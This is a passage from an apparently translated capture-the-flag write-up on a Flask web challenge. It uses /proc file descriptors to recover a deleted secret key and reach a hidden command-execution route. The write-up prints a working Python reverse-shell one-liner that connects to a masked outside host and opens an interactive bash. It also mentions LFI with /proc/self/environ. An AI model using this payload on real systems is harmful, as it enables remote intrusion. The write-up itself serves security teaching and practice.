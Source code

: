 ````bas
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    Return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

```

> After observing the source code, I found the key point: `os.remove(SECRET_FILE)`, which caused the `SECRET_FILE` file to be deleted. Based on the above analysis, we can know that `fd` can be used to read deleted files, so you only need to burst the `id` value to successfully read the content of the deleted file. The `id=3` burst here

> The following are the regular steps, just use the `SECRET_FILE` you got to rebound the shell

```python
GET:
no_one_know_the_manager?key=IEcyndyXL52M6OSfyKnmz3kMIqePrpuHJVUs88J01Ko=&shell=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20211126115758-0b4f656e-4e6d-1.png)

# Summary
> In CTF questions, `/proc` is more common in Web-Python type competition questions, and there are many ways to use them. In addition to the methods used in the above practical example questions, sometimes you will also obtain useful information through `/proc/self/environ`, or use `/proc` and `LFI` to getshell`, etc.
> During the penetration test, when obtaining memory information (cat /proc/meminfo), CPU information (cat /proc/cpuinfo), etc., the `/proc` directory is often used; when utilizing the `php` file containing posture, it is often used to include the `/proc/self/environ` file.